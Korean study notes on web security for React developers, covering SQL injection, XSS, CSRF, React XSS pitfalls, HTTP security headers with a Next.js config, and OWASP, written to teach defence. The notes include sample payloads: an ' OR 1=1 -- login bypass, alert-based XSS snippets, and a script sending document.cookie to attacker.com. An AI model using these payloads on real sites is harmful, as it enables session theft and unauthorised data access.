



# 14장 - 웹사이트 보안을 위한 리액트와 웹페이지 보안 이슈

## 웹 개발자라면 알아야 할 보안 기초

**웹 보안 공격의 종류**

1. DOS
2. SQL Injection
3. sever side template injection
4. cross site scripting
5. Cross Site Request Forgery

---

### **DoS(Denial of Service)**란?

<aside>
🔐

서버나 네트워크 자원을 과도하게 사용하게 만들어 **정상적인 사용자가 서비스에 접근하지 못하도록** 만드는 공격

</aside>

ex) 서버에 과도한 요청을 보내서 서버 자원을 고갈시키거나, 네트워크를 과부하 상태로 만들어 서버가 응답하지 못하게 할 수 있음

**우리가 해야할 일은?**

서버에 불필요한 부하를 줄이고 최적화된 요청 처리한다.

- **속도 제한(Rate Limiting) 준수**
    - 폼을 제출하거나 API 요청을 보낼 때 연속된 빠른 클릭이나 요청을 막아야 함 요런거…

---

### SQL Injection이란?

<aside>
🔐

임의의 SQL 문을 주입하고 실행되게 하여 데이터베이스가 비정상적인 동작을 하도록 조작하는 행위

</aside>

### 로그인 공격 예시

로그인 페이지가 있고, 로그인을 할 때 `USER_ID`와 `INPUT_PW`를 입력받아 로그인이 진행된다고 했을 때 `USER_ID`와 `INPUT_PW`를 입력하여 데이터베이스에서 해당 계정을 찾는다.



**기본 쿼리문**

```sql
SELECT user FROM Users WHERE uid = 'USRE_ID' AND upw = 'INPUT_PW';
```

**공격 예시**

공격자는 `USER_ID` 입력란에 `' OR 1=1 --`를 입력한다. 이러면 위에 쿼리가 밑에 처럼 변경이 된다.

```sql
SELECT user FROM Users WHERE uid = '' OR 1 = 1 --USRE_ID' AND upw = 'INPUT_PW';
```

- `uid = ''`: 사용자 ID가 빈 문자열인 경우를 의미
- `OR 1=1`: 항상 참이 되는 조건
- `-`: SQL에서 이후 내용을 주석 처리하므로 `AND upw = 'INPUT_PW'` 부분이 무시됨

⇒ `OR 1=1`로 인해 WHERE 조건이 무조건 참이 되므로, 데이터베이스는 **모든 사용자**의 정보를 반환…💸💸💸

**우리가 해야할 일은?**

입력 검증, 이스케이프 처리, 요청 제한~

---

### sever side template injection(SSTI)이란?

<aside>
🔐

서버에서 동적으로 HTML을 생성할 때 사용하는 도구인 템플릿 엔진에서 일어남

</aside>

- **Jinja2** (Python)
- **Thymeleaf** (Java)
- **Twig** (PHP)
- **EJS** (Node.js)

---

### cross site scripting(XSS)이란?

<aside>
🔐

웹사이트 개발자가 아닌 제3자가 악성 스크립트를 삽입해 실행할 수 있는 취약점을 의미함

</aside>

XSS 공격은 주로 **Stored XSS, Reflected XSS, DOM-based XSS** 세 가지 유형으로 나뉜다

### **Stored XSS** (저장형)

공격자가 악성 스크립트를 서버에 **저장**한 후, 해당 스크립트가 다른 사용자들에게 지속적으로 제공되는 XSS 공격

```html
<script>alert('XSS');</script>
```

공격자가 블로그 댓글이나 게시글 같은 입력 필드에 악성 코드를 삽입하면 그 코드는 서버에 저장된 후 다른 사용자가 해당 페이지를 방문할 때 실행 (계속 alert 뜬다는 소리)

⇒ 웹사이트 내 사용자의 신상정보, 세션 쿠키, 인증 정보를 탈취할 수 있음.

### **Reflected XSS (반사형)**

사용자가 특정 웹 요청을 할 때, 서버가 그 입력 값을 즉시 반환하여 실행되는 XSS 공격

사용자의 브라우저에서 바로 실행됨

```html
<script> 
  document.location = 'http://attacker.com/cookie?' + document.cookie
</script>
```

- **`document.location` :** 브라우저가 현재 위치한 URL을 변경 → 다른 웹 페이지로 **리다이렉트**
- **`document.cookie` :** 브라우저에 저장된 **쿠키 값**을 가져옴 → **세션 정보 / 로그인 상태**

⇒ 사용자의 **쿠키** 값을 공격자의 서버로 **전송**하여 세션을 탈취할 수 있음

```html
https://example.com/search?q=<script>alert('XSS')</script>
```

사용자가 위 URL을 클릭하면 서버가 `q` 파라미터를 그대로 반영한 페이지를 반환

⇒ `<script>alert('XSS')</script>`가 브라우저에서 실행되어 알림 창이 뜬다는 소리

보통 URL 파라미터나 폼 데이터를 통해 공격

- 공격자는 피해자가 URL을 클릭하도록 유도해야 함 ⇒ 주로 피싱 이메일이나 악성 링크를 통한 유도

### **DOM-based XSS**

DOM(Document Object Model) 조작을 통해 클라이언트 측에서 발생하는 XSS

클라이언트 측 JavaScript가 사용자 입력을 처리할 때, 이 값을 검증하지 않고 HTML에 동적으로 삽입하는 경우

```jsx
var userInput = location.search;  // URL에서 입력을 가져옴
document.body.innerHTML = "Welcome " + userInput;  // DOM에 그대로 삽입
```

---

### Cross Site Request Forgery(CSRF)이란?

<aside>
🔐

공격자가 사용자를 속여, 사용자의 의지와는 상관없이 **인증된 세션**을 이용해 **서버에 요청을 보내는 공격**

</aside>

ex) 링크 클릭시 일어나는 위조된 요청!

xss는 `script` 태그, 얘는 `form` 태그를 삽입하는 방식

---

## **14.1 리액트에서 발생하는 크로스 사이트 스크립팅**

게시판에 아래와 같은 글을 작성한다고 했을 때! 

이 글을 방문했을 때 별도의 조치가 없다면 script가 실행되어 `window.alert` 도 함께 실행 될 것이다

```html
<p> 사용자가 글을 작성했습니다. </p>
<script>
  alert('XSS')
</script>
```

### **이게 왜 문제일까?**

상단처럼 해당 스크립트를 입력해서 실행할 수 있다면 쿠키를 획득해서 다른 사용자의 로그인 세션 등을 탈취하거나 데이터 변경 등 보안상 위험성이 존재함! 

~실습 시간~

[Vite + React + TS](https://web-security-eight.vercel.app/)

- img
    
    ```jsx
    
    ```
    

### 하지만… 이건 여러분들을 위한 퍼.포.먼.스 였을 뿐…

대부분 리액트에서 사전 처리를 해준답니다

### **XSS 방지법**

### **브라우저 차원**

- 브라우저는 `<script> </script>` 구문이 동적으로 삽입되는 것을 방지하는 기능이 있음
    - 빌드 과정에서 만들어진 스크립트가 아닌, 렌더링 이후에 동적으로 삽입되는 `<script>` 구문은 브라우저에서 차단한다. 이를 통해 악의적인 스크립트가 삽입되더라도 실행되지 않도록 막을 수 있다.

### **리액트 차원**

- 리액트에서는 JSX로 작성된 스크립트에서 특수 기호를 **이스케이프(escaping)** 처리한다.
- **설명**: JSX에서 `<`와 `>` 같은 기호를 `&lt;`, `&gt;`로 변환하여 인식한다. 즉, 사용자가 입력한 HTML 태그와 같은 기호들은 문자열로 처리되어 실제로 코드가 실행되지 않도록 보호된다. 코드를 작성할 때 `<script>` 같은 태그를 입력해도 브라우저에서는 그대로 문자열로 인식하게 된다.

### 결론

### JSX와 TSX 사용 권장

- React의 이스케이핑 기능을 적극 활용
    - .js에서는 이스케이핑이 안됨 -> babel을 사용할 때 조심하자

### innerHTML 사용 금지

- 텍스트 출력 시에도 DOM 직접 조작을 피하고, 안전한 메서드 사용
    - innerHTML은 HTML의 요소를 만드는 명령어이기 때문에 태그를 요청하면 실제로 그 태그를 생성함 → 대신 innerText, textContent를 사용하자

추가로 이런 형태의 xss가 발생할 수 있는 상황을 알아보자~

### **14.1.1 dangerouslySetInnerHTML prop**

특정 브라우저 DOM의 innerHTML을 특정한 내용으로 교체할 수 있는 방법이다.

```html
const html = `<span><svg/onload=alert(origin)></span>`

<div dangerouslySetInnerHTML={{__html:html}}/>
```

- 위 코드를 작성하면 origin이 alert로 나타나게 된다
- 사용자나 관리자가 입력한 내용을 브라우저에 표시하는 용도로 사용
- `dangerouslySetinnerHTML`은 __html을 키를 가지고 있는 객체만 인수로 받을 수 있음
    - 인수로 넘겨받은 문자열을 DOM에 그대로 표시하는 역할
    - 인수로 받는 문자열에 제한이 없음

### **14.1.2 useRef를 활용한 직접 삽입**

비슷한 방법으로 DOM에 직접 내용을 삽입할 수 있는 방법으로 useRef가 있다.

```html
divRef.current.innerHTML = html

<div ref={divRef}/>
```

- 이것도 dangerouslySetInnerHTML와 같이 동일한 문제가 발생함

### **14.1.3 리액트에서 XSS 문제를 피하는 방법**

- 가장 확실한 방법 → 제3자가 삽입할 수 있는 HTML을 안전한 HTML 코드로 한 번 치환하는 것!
    
    이러한 과정을 **새니타이즈** 또는 **이스케이프** 라고 하는데, 직접 구현하는 방법도 있지만 가장 확실한 방법은 npm 라이브러리를 사용하는 것이다.
    
    <aside>
    🔒
    
    - DOMpurity
    - sanitize-html
    - js-xss
    </aside>
    
- 또한 이러한 과정은 서버에서 수행하는 것이 좋은데…
    
    클라이언트 측에서 처리된 데이터는 서버에 도달하기 전에 변경될 수 있기 때문!
    

## **14.2 getServerSideProps와 서버 컴포넌트를 주의하자**

- 서버에는 일반 사용자에게 노출되면 안되는 정보들이 담겨져 있기 때문에 브라우저에 정보를 내려줄 때는 조심해야 함
- `getServerSideProps`가 반환하는 값 또는 서버 컴포넌트가 클라이언트 컴포넌트에 반환하는 props는 반드시 필요한 값으로만 철저하게 제한되어야 함
    
    ⇒ 보안 측면의 이점뿐만 아니라 성능 측면에서도 이점을 가져다 줄 수 있음
    

## **14.3 <a> 태그의 값에 적절한 제한을 둬야한다.**

- **`href`** 내에 js 코드가 존재한다면 실행하는 패턴은 안티패턴이다!
    
    ```jsx
    <a href="javascript:alert('Hello!')">Click me!</a>
    ```
    
    클릭하면 페이지가 이동하는 대신 `alert('Hello!')`라는 JavaScript 코드가 실행되어 알림 창이 나타남! 아까 설명했던 xss 위험!
    
- 따라서 **`href`** 값에 적절한 제한을 둬야함
    - `href` 속성에 들어가는 값을 **URL 형식으로 제한하거나**
    - 정적 URL만 허용하거나  → `<a href="/home">Home</a>`

## **14.4 HTTP 보안 헤더 설정하기**

### **HTTP** 보안 헤더란?

<aside>
🔒

브라우저가 렌더링하는 내용과 관련된 보안 취약점을 방지하기 위해 브라우저와 함께 작동하는 헤더

</aside>

### **14.4.1 Strict-Transport-Security**

- 모든 사이트가 HTTPS를 통해 접근해야 함
- 따라서 HTTP로 접근하는 경우 모든 시도는 HTTPS로 변경하게 함
    - 사용자가 `http://example.com`과 같은 URL로 접근해도, HSTS가 설정된 서버는 자동으로 `https://example.com`으로 리다이렉트 하도록~

### **14.4.2** X-XSS-Protection

- 비표준 기술로, 사파리와 구형 브라우저에서만 제공되는 기능
- **페이지에서 XSS 취약점/공격이 발견되면 브라우저가 해당 페이지 로딩을 중단**
- 해당 헤더를 전적으로 믿어서는 안되며, 반드시 페이지 내부에서 XSS에 대한 처리를 하는 것이 좋음

### **14.4.3** X-Frame-Options

- frame, iframe, embed, object 내부에서 렌더링을 허용할지 나타낼 수 있음
- 외부 사이트가 악의적으로 페이지를 iframe 안에 삽입하는 **클릭재킹(Clickjacking)** 공격을 방지할 수 있음
    - `DENY`: 페이지가 다른 사이트에서 iframe으로 절대 표시되지 않도록 한다
    - `SAMEORIGIN`: 동일한 출처(도메인)에서만 iframe으로 페이지를 렌더링할 수 있다

### **14.4.4** Permissions-Policy

- 웹사이트에서 사용할 수 있는 기능과 없는 기능을 명시적으로 선언하는 헤더
- 다양한 브라우저의 기능이나 API를 선택적으로 활성화하거나 필요에 따라서는 비활성화할 수 있음
- 웹사이트가 브라우저에서 접근할 수 있는 기능(예: 카메라, 위치 정보, 마이크 등)을 제한/설정 가능
    - `geolocation=()` : 위치 정보 사용을 비활성화
    - `camera=(self)` : 자신의 도메인에서만 카메라 사용 허용

### **14.4.5** X-Content-Type-Option

- 서버에서 제공하는 MIME 타입(파일 형식)이 **브라우저에 의해 임의로 변경되지 않도록** 하는 보안 헤더
    - **`MIME`** : Content-type 의 값, 그냥  jpg, css, json등의 유형임
- **MIME 스니핑 방지**: 브라우저가 파일을 잘못 해석하여 악성 콘텐츠로 인식하지 않도록~

### **14.4.6** Referrer-Policy

- 브라우저는 페이지에서 다른 URL로 이동할 때 **어디에서 왔는지(Referer)** 정보를 담아 보냄
    
    → 이 정보에는 사용자가 이전에 보던 페이지의 URL이 포함됨
    
    - 사용자 입장에서 원치않는 정보가 노출될 수 있음
- 적절한 예시가 있어서 가져와봤습니다
    
    [feat: 비밀번호 재설정 페이지 퍼블리싱 및 API 연결 by ssolfa · Pull Request #233 · yourssu/Soomsil-Web](https://github.com/yourssu/Soomsil-Web/pull/233#discussion_r1652725446)
    

### **14.4.7** Content-Security-Policy

- XSS 공격이나 데이터 삽입 공격과 같은 다양한 보안 위협을 막기 위해 설계
    - **-src:** 다양한 src를 제어할 수 있는 지시문
    - **form-action**: 폼 양식으로 제출할 수 있는 URL 제한 가능
    - [W3](https://www.w3.org/TR/CSP2/#directives)에 모든 지시문이 나와있음

### **14.4.8** 보안 헤더 설정하기

- **Next.js**나 **NGINX**와 같은 서버 설정 파일에서 **보안 헤더**를 설정할 수 있음
    - **Next.js**: HTTP 경로별로 `next.consig.js`에 보안 헤더 적용 가능
        
        이런 식으로 위에서 봤던 옵션들 적용 가능!!
        
        ```jsx
        module.exports = {
          async headers() {
            return [
              {
                source: '/(.*)',
                headers: [
                  {
                    key: 'Strict-Transport-Security',
                    value: 'max-age=31536000; includeSubDomains',
                  },
                  {
                    key: 'Content-Security-Policy',
                    value: "default-src 'self'; script-src 'self'; img-src 'self'; style-src 'self'; object-src 'none';",
                  },
                  {
                    key: 'X-Frame-Options',
                    value: 'SAMEORIGIN',
                  },
                  {
                    key: 'X-Content-Type-Options',
                    value: 'nosniff',
                  },
                  {
                    key: 'Referrer-Policy',
                    value: 'no-referrer-when-downgrade',
                  },
                  {
                    key: 'Permissions-Policy',
                    value: 'geolocation=(), camera=(), microphone=()',
                  },
                ],
              },
            ]
          },
        }
        
        ```
        
    - **NGINX**: 경로별로 `add_header` 지시자를 사용해 원하는 응답 헤더 추가 가능

### **14.4.9** 보안 헤더 확인하기

- [https://securityheaders.com/](https://securityheaders.com/) 을 방문하여 현재 보안 헤더 상황 파악 가능
- 취약점 분석 추천은 ZAP
    - [https://blog.naver.com/mylch100/223245251347](https://blog.naver.com/mylch100/223245251347)

## **14.5 취약점이 있는 패키지의 사용을 피하자**

- package-lock.json의 모든 의존성을 파악하는 것은 불가능
    
    ⇒ 깃허브의 Dependabot이 발견한 취약점을 빠르게 업데이트 한다!
    
    
    
    이런거 저만 오는지,,,,,,ㅎ
    
- 리액트, Next.js 등 사용중인 상태 관리 라이브러리와 같이 프로젝트를 구성하는 핵심적인 패키지는 버저닝(버전 관리), 패치 업데이트 등은 항상 예의 주시 해야 함

## **14.6 OWASP Top10**

- Open WroldWide Application Security Project의 약자
- 오픈소스 웹 애플리케이션 보안 프로젝트를 의미
- 웹에서 발생할 수 있는 정보 노출, 악성 스크립트, 보안 취약점 등을 연구하며 주기적으로 10대 웹 애플리케이션 취약점을 공개
    
    
    
    ⇒ 이를 OWASP Top 10이라 함
    
- 주요 보안 취약점을 요약해줄 뿐더러 어떻게 조치해야 하는지도 알려줌
- 버그가 없는 소프트웨어는 없기 때문에 항상 보안 이슈에 귀 기울이며 만반의 준비를 갖추자~

## 추가로

- URL 설계 잘 하기
    
    <aside>
    🔐
    
    **URL 파라미터**나 **직접적인 숫자 기반 ID**를 사용하는 것이 보안상 취약할 수 있음
    
    </aside>
    
    **블로그 글 예시**
    
    URL: `/blog/1`, `/blog?num=1`
    
    숫자 1은 글 ID를 의미하는데, 만약 다른 글의 ID(예: 2, 3)를 쉽게 추측할 수 있다면, 사용자가 권한이 없는 글에도 접근할 수 있게 되는~
    
    **경품 사이트 예시**
    
    URL:  `/event?registration=100`
    
    사용자가 URL에 포함된 신청번호(100)를 임의로 1로 변경해 경품을 받으려는 시도를 할 수 있음~
    
    ⇒ 이처럼 숫자 기반 파라미터는 쉽게 변조될 수 있어 악용 가능성이 크다는 ~
    

웹 보안에 관심이 생겼다면?!

해킹 공부 입문으로 추천합니다

하지만 가지마… 나와 영원히 웹FE로 남아…

[Hackers' playground, Dreamhack](https://dreamhack.io/)

## 참고자료

[https://www.lgcns.com/blog/cns-tech/security/54998/](https://www.lgcns.com/blog/cns-tech/security/54998/)

[https://www.youtube.com/watch?v=FoZ2cucLiDs](https://www.youtube.com/watch?v=FoZ2cucLiDs)
